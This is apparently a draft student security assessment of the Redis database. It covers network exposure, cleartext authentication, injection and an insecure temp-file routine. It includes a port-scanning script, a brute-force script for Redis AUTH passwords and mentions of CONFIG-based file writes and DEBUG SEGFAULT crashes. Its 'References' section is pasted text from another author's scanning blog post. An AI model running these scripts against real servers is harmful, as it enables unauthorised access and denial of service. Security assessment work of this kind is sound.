


Redis Draft Understanding
---------------------------------

### Requirements

Written the report in such a way that the reader can understand the application, security model and get a good sense of it’s security worthiness in the deployment context. Demonstrated proficiency in using tools and techniques for finding the vulnerabilities, provided a good write up on the approach and results.

### Introduction

Nowadays, companies in big data or real-time web applications, cannot wait for weeks to complete the definition of how they want to store their data. For example, if the users have twitter, GitHub, or Facebook data that the application wants to store with the traditional contract data. In a traditional relational database, we would need to preallocate all the fields that you need upfront. We can change our fields within a relational database but it may take an extreme amount of time to apply those changes to your database. This may cause downtime or loss of productivity. Because of this challenges, the NoSQL technology was created.

NoSQL technology provides a mechanism include simplicity of design, horizontal scaling and finer control over availability. For different purposes, there are a few different types of NoSQL systems. One example is an in memory database. [REDIS](http://redis.io/) is an advanced key-value store, which is often referred to as a data structure server since keys can contains strings, hashes, lists, sets and sorted sets. It is used in several important products and services such as: [GitHub](https://github.com/blog/530-how-we-made-github-fast), [stackoverflow](http://meta.stackoverflow.com/questions/69164/does-stackoverflow-use-caching-and-if-so-how/69172), [Disqus](http://redis.io/topics/whos-using-redis) and many more that we can find from the [who is using](http://redis.io/topics/whos-using-redis) page. 

Because of the popularity of Redis that it is used in a wide variety of applications, it is worth to analyze the security risk. For instance, compare to relational databases vulnerabilities, NoSQL databases are generally different as a result of their focus. Although the [website](http://redis.io/topics/security) of Redis will actually announce that it is only designed to be accessed from "trusted environment", it depends on what we want to use it for. So a standard application which only has one access level and the access can be restricted at an IP level, but a system which is designed for multiple users with multiple privileges to directly access the database would be problematic.


### Security Model

> Redis is designed to be accessed by trusted clients inside trusted environments.... In general, Redis is not optimized for maximum security but for maximum performance and simplicity...

In this section, I will examine Redis in different aspects concerned with application security. 

#### 1. Network Security

##### 1.1 Model

According to [Redis Protocol specification](http://redis.io/topics/protocol), Redis communication protocol is a simple plain-text mechanism. The redis server starts to run by creating a TCP connection to the port 6379.



In the context of Redis the protocol is only used with TCP connections, offering no transport layer security. Because of this, all access to the Redis server port should be denied except for "trusted clients inside trusted environments". 

Ideally Redis is deployed in firewall secured locations or listening so only on server processes can talk to them. With the drive of cloud based services its possible to assemble an application of any scale very quickly. 

##### 1.2 Vulnerabilities

By default, redis listens on all available IP addresses on port 6379, with no configuration required at all. No configuration by default is a normal state of NoSQL databases if you downloaded the software and installed it yourself. This is convenient for developers, however, sometimes in doing so developers may forget about the need for configuration.

Below is a scanning script I will use as a demonstration:

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import sys
import nmap

rhost = '127.0.0.1'
rport = 6379
# Use nmap to scan default port number
print "[-] Start to run port scanning"
nm = nmap.PortScanner()
response = nm.scan(rhost, rport)

product_info = response['scan'][rhost]['tcp'][rport]
if product_info['state'] == 'open':
    print "[-] Redis server is running on default port"
```

I predict that by change the specific IP address from the localhost to any network and its sub-network (/24) ranges, this script can get a lot of misconfigured Redis server addresses. 

##### 1.3 Suggestions
In order to secure network security, we can bind the Redis server to a single interface by modifying the `redis.conf` file:

```bash
bind 127.0.0.1
```

#### Authentication Model

Redis stores the password in the `redis.conf` file. By default, no authentication is required. To enable the authentication feature, we need to edit the `redis.conf` file. After that, Redis server will refuse any query by unauthenticated clients. 



Redis has a weak password storage method - the password is set in clear text and the `AUTH` command is not rate limited or restricted in any way. It provides a huge opportunities for brute force attack. An attacker could repeatedly issue the `AUTH` command until the correct password is identified. Below is the script that I use to do a brute force attack:

```python
import redis
from redis import exceptions
import string
try:
    import pwddict
except:
    try:
        sys.path.append('.')
        import pwddict
    except:
        sys.exit(2)
        
# generates word list
rpwd = ''
p = pwddict.SimpleEngine(string_length=4)
for password in p.generator():
    try:
        pwd = ''.join(password)
        print "[-] Try password {0}".format(pwd)
        r = redis.Redis(host=rhost, port=rport, db=0, password=pwd)
        r.set("foot", "bar")
        if r.get("foot") == "bar":
            rpwd = pwd
            break;
    except exceptions.ResponseError:
        print "[-] Failed to auth by redis server."
        continue

print "Success to crack the auth, password is {0}".format(rpwd)
```

#### NoSQL Injection

Redis uses a custom and simple query language to avoid classical NoSQL injection such as server-side JavaScript injection. Based on the , all legal strings are on the whitelist.
```c
struct redisCommand *commandTable;
```
In `redis.c`, the struct pointer `commandTable` contains all legal commands which is based on the [Redis Protocol](http://redis.io/topics/protocol), so Redis protocol has no concept of string escaping, so injection is impossible under normal circumstances using a normal client library. The protocol uses prefixed-length strings and is completely binary safe.


##### Source Code Security Model

Redis is written in ANSI C and works in most POSIX systems like Linux, BSD, OS X and Solaris without external dependencies. 

In a classical Redis setup, clients are allowed full access to the command set, but accessing the instance should never result in the ability to control the system where Redis is running.

Internally, Redis uses all the well known practices for writing secure code, to prevent buffer overflows, format bugs and other memory corruption issues. However, the ability to control the server configuration using the CONFIG command makes the client able to change the working dir of the program and the name of the dump file. This allows clients to write RDB Redis files at random paths, that is a security issue that may easily lead to the ability to run untrusted code as the same user as Redis is running.

Redis does not requires root privileges to run. It is recommended to run it as an unprivileged redis user that is only used for this purpose. The Redis authors are currently investigating the possibility of adding a new configuration parameter to prevent CONFIG SET/GET dir and other similar run-time configuration directives. This would prevent clients from forcing the server to write Redis dump files at arbitrary locations.

```c
int rdbSave(char *filename) {
    dictIterator *di = NULL;
    dictEntry *de;**
    char tmpfile[256];
    char magic[10];
    int j;
    long long now = mstime();
    FILE *fp;
    rio rdb;
    uint64_t cksum;

    snprintf(tmpfile,256,"temp-%d.rdb", (int) getpid());
    fp = fopen(tmpfile,"w");
    if (!fp) {
        redisLog(REDIS_WARNING, "Failed opening .rdb for saving: %s",
            strerror(errno));
        return REDIS_ERR;
    }

    rioInitWithFile(&rdb,fp);
    if (server.rdb_checksum)
        rdb.update_cksum = rioGenericUpdateChecksum;
    snprintf(magic,sizeof(magic),"REDIS%04d",REDIS_RDB_VERSION);
    if (rdbWriteRaw(&rdb,magic,9) == -1) goto werr;

    for (j = 0; j < server.dbnum; j++) {
        redisDb *db = server.db+j;
        dict *d = db->dict;
        if (dictSize(d) == 0) continue;
        di = dictGetSafeIterator(d);
        if (!di) {
            fclose(fp);
            return REDIS_ERR;
        }
```

In `rdb.c` line 641, the function `rdbSave` does not use a security temporary file creation
routine such as `mkstemp`.  This is vulnerable to a wide range of attacks which
could result in overwriting (in line 693-695) and unlinking (in line 701) any
file / hard link / symlink placed in temp-PID.rdb by an attacker. The code should be creating the temporary file using some kind of safe function like `mkstemp`, `O_EXCL open`, etc. instead of just using a PID value which does not have enough entropy and protection from race conditions. It should also be sure it has set the CWD of itself to a known-safe location that should have permissions which are only open to the redis daemon / redis user
and not to other users or processes.

Reference [1](https://www.owasp.org/index.php/Improper_temp_file_opening),  [2](https://www.owasp.org/index.php/Insecure_Temporary_File)

### References

The Redis protocol is a simple plain-text mechanism,  This is a problem in itself, but it gets worse.  So, as you might imagine, quite a few of these servers end up facing the internet. So, I decided to see if I could find any. I wrote up a quick script to scan random /24 ranges for Redis installations, and was amazed at the result. From a single day’s scanning, I found 48 open servers. What’s worse, two of them are major household-name websites – both of which were using Redis to store their page content. Obviously both of these companies have been contacted.

It gets even worse, though. Redis allows you to send a DEBUG SEGFAULT command, which purposefully crashes the server. This means you can take down any Redis installation remotely. Nasty stuff.

```bash
redis_version:2.4.5
redis_git_sha1:00000000
redis_git_dirty:0
arch_bits:32
multiplexing_api:winsock2
process_id:####
uptime_in_seconds:##########
uptime_in_days:6
lru_clock:##########
used_cpu_sys:421.25
used_cpu_user:466.63
used_cpu_sys_children:6.48
used_cpu_user_children:3.12
connected_clients:16
connected_slaves:0
client_longest_output_list:0
client_biggest_input_buf:0
blocked_clients:0
used_memory:680824356
used_memory_human:664.87M
used_memory_rss:680824356
used_memory_peak:697004492
used_memory_peak_human:680.67M
mem_fragmentation_ratio:1.00
mem_allocator:libc
loading:0
aof_enabled:0
changes_since_last_save:6922
bgsave_in_progress:0
last_save_time:1326######
bgrewriteaof_in_progress:0
total_connections_received:802101
total_commands_processed:3692083
expired_keys:34652
evicted_keys:2
keyspace_hits:2763416
keyspace_misses:591228
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
vm_enabled:0
role:master
```

Update: The creator of Redis, antirez, responded to this post, informing me that you can in fact make Redis bind to a single IP in redis.conf. I’d like to clarify my point on the security of Redis – it is designed to be lightweight and provide only minimal security, so this problem is not a flaw of Redis itself. Instead, it’s a flaw of how people are using (or abusing) Redis. The current ethos is that you should always apply network security to your NoSQL systems – if you don’t, it’ll end in tears.

